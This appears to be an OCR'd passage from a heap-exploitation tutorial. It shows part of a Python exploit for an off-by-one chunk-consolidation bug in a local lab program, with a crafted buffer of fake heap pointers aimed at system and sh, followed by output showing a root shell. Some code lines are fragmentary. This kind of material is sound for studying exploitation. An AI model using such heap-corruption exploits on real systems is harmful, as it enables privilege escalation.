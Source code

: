 ``` python
 return struct.pack("<I",num)
buf = # fd
buf += conv(bk)
buf += conv(fd_nextsize)
buf += conv(bk_nextsize)
buf += conv(system)
buf += conv(sh)
buf += "A" * 996

print "Calling vulnerable program"
call(["./consolidate_forward", buf])
```
Executing above exploit code gives us root shell!!  
``` bash
$ python gen_file.py > inp_file
$ python exp.py 
Calling vulnerable program
sh-4.2# id
uid=0(root) gid=1000(sploitfun) groups=0(root),10(wheel),1000(sploitfun) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
sh-4.2# exit
exit
$
```
Our off-by-one vulnerable code consolidates chunks in forward direction, similarly chunks can also be consolidated in backward direction. Such off-by-one vulnerable codes which consolidates chunks in backward direction can also be exploited!!   

## Reference
[Hiroki Matsukuma](https://www.slideshare.net/codeblue_jp/cb16-matsukuma-en-68459606)     